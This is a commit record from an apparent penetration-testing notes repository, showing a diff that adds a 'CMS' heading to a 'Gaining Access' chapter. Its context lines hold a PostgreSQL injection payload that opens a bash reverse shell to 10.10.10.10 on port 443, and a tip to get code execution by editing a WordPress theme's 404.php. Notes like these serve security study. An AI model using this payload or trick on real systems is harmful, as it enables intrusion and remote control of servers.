

Before and after one commit to mlopez66/hacking-notes, an R Markdown document (04-Gaining-Access/04-00-part.Rmd): the page in a window 1100 px wide, from 2940 px down. Rendered offline with R 4.5, knitr and Pandoc, with nearby package versions; drawn as R Markdown's standard HTML page in place of the format the file asks for.

Commit message:
AddCMS section

````diff
--- a/04-Gaining-Access/04-00-part.Rmd
+++ b/04-Gaining-Access/04-00-part.Rmd
@@ -182,6 +182,8 @@
     '; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.10.10/443 0>&1'''; --
     ```
 
+# CMS {-}
+
 ## Wordpress {-}
 
 When we are connected to the wordpress admin panel, the trick is to modify Theme **404.php** file.
````
